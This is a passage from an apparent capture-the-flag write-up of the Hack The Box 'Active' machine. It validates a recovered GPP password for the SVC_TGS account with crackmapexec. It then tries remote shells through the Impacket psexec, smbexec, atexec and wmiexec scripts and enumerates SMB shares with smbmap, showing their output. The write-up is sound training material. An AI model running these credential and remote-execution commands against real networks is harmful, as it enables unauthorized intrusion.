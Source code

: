 It seems like the password for the `active.htb\SVC_TGS` account may be `GPPstillStandingStrong2k18`? Test it out:

```bash
crackmapexec smb 10.10.10.100 -d 'active.htb' -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

![smb4](./active/smb4.png)

The credentials look valid! Try and use it to get a shell

```bash
psexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
smbexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
atexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100 whoami
wmiexec.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100 whoami
```

![smb5](./active/smb5.png)

No luck... Try looking if any new shares/files are now readable:

```bash
smbmap -R -g -d active.htb -H 10.10.10.100 --depth 10 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

This provides new access to the `Users` and `SYSVOL` shares. The `SYSVOL` share has the sae contents as the `Replication` share. However, the `Users` share provides more info:

```
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Contacts, fileSize:0, date:Sat Jul 21 11:14:20 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Desktop, fileSize:0, date:Sat Jul 21 11:14:42 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Downloads, fileSize:0, date:Sat Jul 21 11:14:28 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Favorites, fileSize:0, date:Sat Jul 21 11:14:50 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\Links, fileSize:0, date:Sat Jul 21 11:15:00 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Documents, fileSize:0, date:Sat Jul 21 11:15:23 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Music, fileSize:0, date:Sat Jul 21 11:15:40 2018
host:10.10.10.100, privs:READ_ONLY, isDir:d, name:Users\SVC_TGS\My Pictures, fileSize:0, date:Sat Jul 21 11:15:50 2018
```